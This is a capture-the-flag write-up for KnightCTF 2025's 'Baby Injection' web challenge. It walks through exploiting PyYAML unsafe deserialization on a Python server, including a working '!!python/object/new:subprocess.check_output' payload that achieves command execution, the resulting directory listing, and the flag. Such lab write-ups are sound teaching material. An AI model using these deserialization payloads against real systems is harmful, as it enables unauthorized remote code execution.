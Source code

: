 ```yaml
---
title: "Baby Injection"
description: "Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#baby-injection)

We are given a webserver which displays some text and has a base64 string at the end:
`http://172.105.121.246:5990/eWFt...`

Decoding that string we see the following:

```
yaml: <text here>
```

This seems to be some sort of YAML injection, so let's look at what the server is running with.

The webserver is running with **Python** according to the headers in the response (no screenshot sorry, it was very clear I promise).

Looking at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml) there is a section for a library called `PyYAML`.

I try a basic payload: `!!python/object/apply:builtins.range [1, 10, 1]`.

The server response is `range(1,10)`, perfect!!

I try an RCE to list the files in the current directory: `yaml: !!python/object/new:subprocess.check_output [['ls', '-la']]`.

The webserver responds with the following (thanks to `abl` for supplying the response post CTF):

```
[{&#39;test&#39;: {b&#34;total 32\ndrwxr-xr-x 1 root root 4096 Jan 21 01:22 .\ndrwxr-xr-x 1 root root 4096 Jan 20 21:15 ..\n-rw-r--r-- 1 root root  500 Jan 20 21:08 Dockerfile\n-rw-r--r-- 1 root root    0 Jan 20 22:56 KCTF{d38787fb0741bd0efdad8ed01f037740}\n-rw-r--r-- 1 root root    0 Jan 20 22:56 Why didn&#39;t they set this as read only\n-rw-r--r-- 1 root root    0 Jan 20 22:56 a\n-rw-r--r-- 1 root root   86 Jan 20 22:43 a.txt\ndrwxr-xr-x 3 root root 4096 Jan 20 21:13 app\n-rw-r--r-- 1 root root    0 Jan 21 00:34 hey.txt\n-rw-r--r-- 1 root root   27 Jan 20 20:59 requirements.txt\n-rwxr-xr-x 1 root root  128 Jan 20 21:15 start.sh\ndrwxr-xr-x 2 root root 4096 Jan 21 01:23 static\n-rw-r--r-- 1 root root    0 Jan 20 22:56 what if someone overwrite the flag??\n-rw-r--r-- 1 root root    0 Jan 20 23:04 zab.txt\n&#34;: None}}]
```

This contains the flag!

Flag: `KCTF{d38787fb0741bd0efdad8ed01f037740}`
